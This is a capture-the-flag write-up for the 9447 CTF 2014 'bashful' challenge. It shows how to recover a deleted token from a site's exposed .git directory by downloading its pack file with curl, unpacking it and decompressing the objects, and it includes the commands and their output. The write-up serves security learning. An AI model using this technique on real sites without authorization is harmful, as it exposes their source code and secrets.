 ## bashful ##
Writeup by @auscompgeek.

> **Note**: This is the second (ironically easier) of the two git challenges,
> the first being [tumorous](tumorous.md).  This writeup has been written under
> the assumption that the first has been read.

### tl;dr ###
* `.git` repo was exposed (with indexes on after the challenge was "fixed")
* get and unpack the pack file
* read the blob objects (like in tumorous)

### Introduction ###
Upon visiting <http://bashful.9447.plumbing/>, we are presented with a
diary-like page, similar to tumorous.  They seem identical at first glance,
however, a closer inspection reveals something more.

Here are the diary entries:

```
13/2/2004: I learned how to html, yay!
12/4/2004: I learned how to use git, yay!
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.
10/9/2004: I can't forget my token. What do I do? I should also pack so I'm ready to leave soon.
11/9/2004: I panicked and deleted the token. It is the work of evil doers.
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.
```

Note the extra sentence in the differing entry for 10/9/2004:

> I should also pack so I'm ready to leave soon.

This implies that we may need to look at git pack files.

### Tips and Background ###
In addition to the tips in the tumorous writeup, it is useful to know about the
`git unpack-objects` command.  This reads an object pack file from stdin, and
unpacks the objects within into the current git repo.

### Exploitation ###
As before, we need to get a git blob object that represents `token`.

If we navigate to <http://bashful.9447.plumbing/.git/objects/>, we find that
all the objects are gone.  Navigate to the `pack` subdirectory however, and we
find a pack file named `pack-deff83d57714493c6d317394f3542da8e396f887.pack`.
We can download this and run `git unpack-objects` in a git repo:

```bash
$ cd $(mktemp -d)
$ git init
Initialized empty Git repository in [temporary directory]
$ curl http://bashful.9447.plumbing/.git/objects/pack/pack-deff83d57714493c6d317394f3542da8e396f887.pack | git unpack-objects
Unpacking objects: 100% (4/4), done.
```

Now that we have all the objects in our git repo, we can now find the blob
object.  I was lazy, so I just decompressed _all_ the objects:

```
$ cd .git/objects
$ for file in ??/*; do (printf "\x1f\x8b\x08\x00\x00\x00\x00\x00"; cat $file) | gunzip | cat -v; done
gzip: stdin: unexpected end of file
commit 296^@tree a475f4d3b14d659ee9d08d727a8dee7d896d2ca9
parent ec972f9af79a09129021a30e7f08099aa2b8a81d
author root <root@ip-172-31-10-205.ap-southeast-2.compute.internal> 1417230572 +0000
committer root <root@ip-172-31-10-205.ap-southeast-2.compute.internal> 1417230572 +0000

My precious flag now exists

gzip: stdin: unexpected end of file
blob 45^@9447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}

gzip: stdin: unexpected end of file
tree 71^@100644 index.html^@M-2qM-:^H^TWHlM-^XM-N+M-^V
M-^H\M-_ex^^M-j100644 token^@-(M-,M-pM-^_M-DBO~^W^AM-=|M-^JmM-rM-^^lM-^_M-a
gzip: stdin: unexpected end of file
blob 731^@<html>
<head> </head>
<body>
13/2/2004: I learned how to html, yay!<br>
12/4/2004: I learned how to use git, yay!<br>
13/4/2004: Hidden my 'repository' so people can't access it. I have a feeling I will need to protect something soon.<br>
08/9/2004: Forged a token from the whispering iron. It is very dear to me, I should protect it.<br>
10/9/2004: I put my token in a text file to protect it from alien mind readers from planet Zblaargh.<br>
10/9/2004: I can't forget my token. What do I do? I should pack so I'm ready to leave soon.<br>
11/9/2004: I panicked and deleted the token. It is the work of evil doers.<br>
12/9/2004: My token is lost. My life has no meaning now. I'm going to watch Louie season 4.<br>
</body>
</html>
```

Our flag clearly is `9447{I_JUST_THINK_BITCOIN_WILL_DIE_OUT_SOON}`.
Hmm... will Bitcoin die out though?

### Notes ###
It may be easier (hint: it *is*) to `wget` the entire `.git` directory, like
[mathiasbynens did](https://github.com/ctfs/write-ups/tree/master/9447-ctf-2014/bashful).
I outline this process as this is along the lines of the original intended
solution (before they realised it was impossible).
